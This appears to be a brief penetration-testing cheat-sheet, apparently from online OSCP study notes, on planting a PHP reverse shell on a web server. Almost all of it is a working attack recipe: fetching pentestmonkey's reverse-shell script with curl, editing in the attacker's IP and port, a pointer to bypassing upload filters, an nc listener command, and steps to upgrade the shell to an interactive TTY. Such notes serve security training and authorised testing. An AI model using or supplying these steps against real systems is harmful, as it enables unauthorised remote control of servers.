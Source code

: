 # PHP reverse shell

First, download the script:

    curl -LO https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Change `ip` and `port` in the script (use `ip addr` for ip, `port` can be anything that's available):

    nano php-reverse-shell.php

Also probably rename, see [Bypass File Upload Filtering](https://sushant747.gitbooks.io/total-oscp-guide/content/bypass_image_upload.html).

Next, start `nc`:

    nc -lvnp <port>

Finally, upload the script to the server, and open the newly created link.

To upgrade the dumb shell:

    python -c 'import pty; pty.spawn("/bin/bash")'
    # Ctrl-Z
    stty raw -echo
    fg
    reset
    # Set terminal to vt100

For even more, see [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)